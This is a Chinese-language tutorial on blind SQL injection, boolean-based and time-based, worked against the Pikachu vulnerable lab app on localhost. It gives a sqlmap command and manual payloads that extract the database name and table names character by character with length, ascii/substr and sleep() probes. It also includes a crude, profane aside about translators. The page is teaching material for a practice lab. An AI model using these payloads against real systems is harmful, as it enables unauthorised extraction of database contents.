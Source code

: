 ---
# 什么是盲注
在有些情况下，后台使用了错误消息屏蔽方法屏蔽了报错      
此时**无法在根据报错信息来进行注入的判断**      
根据表现形式的不同，盲注又分为      
* **`based boolean`  基于布尔盲注**      
* **`based time`  基于时间盲注**

建议使用sqlmap来进行注入
```batch
python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_blind_b.php?name=1&submit=%E6%9F%A5%E8%AF%A2" --dbs
```
手动注入非常麻烦，后面原理不想看的可以不看

## **`based boolean`  基于布尔盲注** 
布尔型Boolean只有两个值，`true`/`false`

~~😅这布尔翻译的什么逼名称，信达雅没一个对上的，直接音译还要译者干什么，这种译者就应该把头塞进他妈逼里边用逼水洗洗脑子~~
![臥槽滿屏幕片假名鬼看得懂啊.jpg](https://pic4.zhimg.com/v2-42a74ab9c6b7384e6fee9194fef69b83_r.jpg)
### 特征：

0. 没有报错信息
1. 不管是正确的输入，还是错误的输入，都**只显示两种情况** (我们可以认为是0或者1)
2. 在正确的输入下，输入`and 1=1`/`and 1=2`发现可以判断 (`1=1`为真，`1=2`为假)

已知输入正确回复你答对了，输入错误回复你答错了，现在来攻破这个数据库吧！🤓
```sql
# 正确输入:                 # 回显：
kobe' and 1=1 #            # your uid:3
                           # your email is: kobe@pikachu.com

# 错误输入                  # 回显：
kobe' and 1=2 #            # 您输入的username不存在，请重新输入！
```
### 小知识
#### sql: `substr`函数用法
##### **`substr(str,pos,len)`**
从`pos`开始的位置，截取`len`个字符
```sql
substr(string ,1,3) 
# 结果为： str

substr(string, -1,3) 
# 取string右边第1位置起，3字长的字符串。显然右边第一位置起往右不够3字长。
# 结果只能是： g

substr(string, -3,3)
# 取string右边第3位置起，3字长的字符串。
# 结果为: ing
```
##### **`substr(str,pos)`**
`pos`开始的位置，一直截取到最后

```sql
substr(string ,4) 
# 从右第4位置截取到最后
# 结果是： ing
```
#### sql: `length`函数用法
##### **`length(str)`**
计算单位：字节
一个数字或字母一个字节
* utf8编码：一个汉字三个字节
* gbk编码：一个汉字两个字节
```sql
select length('123456百度');
# utf8:12
# gbk:10
```
#### sql: `char_length`函数用法
计算单位：字符
不管汉字还是数字或者是字母都算是**一个字符**
```sql
select char_length('123456百度');
# 返回值:8
```
**通过`length()<>char_length()`可以用来检验是否含有中文字符**

### 实操
#### 通过不断比较判断数据库名的长度
```sql
# database名是root，长度为4
# 构造命令
select length(database())>5;
# 返回0
select length(database())<5;
# 返回1
select length(database())=5;
# 返回1
```

```sql
# 构造payload
kobe' and length(database())=4 # 注意比较
```
数据库名的长度比出来了
#### 通过ascii码比较判断数据库名的字符
```sql
# 构造命令
select ascii(substr(database(),1,1))>113 # 注意比较
```
```sql
# 构造payload
kobe' and ascii(substr(database(),1,1))>113 # 注意比较
```
数据库名的字符的ascii码一个个比出来了
#### 更进一步
```sql
select table_name from information_schema.tables where table_schema=database() limit 0,1
# 返回当前数据库的第一个表名
```
用上面这个命令替换database()函数
```sql
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>113 # 注意比较
# >113返回0，<113返回1，慢慢比吧
```     

## **`based time`  基于时间盲注**
### 特征：
只有一种回显，无法判断是否正确,被数据库冷暴力了😭
### 实操
**通过`sleep()`函数延时**，判断是否注入成功     
按下浏览器F12，查看网络模块，有一个时间列表，这个就是响应时间
```sql
# payload
kobe' and sleep(5) #
# sqli_blind_t.php?name=kobe%27+and+sleep%285%29+%23&submit=%E6%9F%A5%E8%AF%A2	200	document	其他	34.1 kB	5.02 秒
```
可以看到，响应时间5.02 秒，说明注入成功     
```sql
# payload
kobe' and if((substr(database(),1,1))='r',sleep(5),null)#
```
和布尔盲注一样，替换database()函数，慢慢比吧

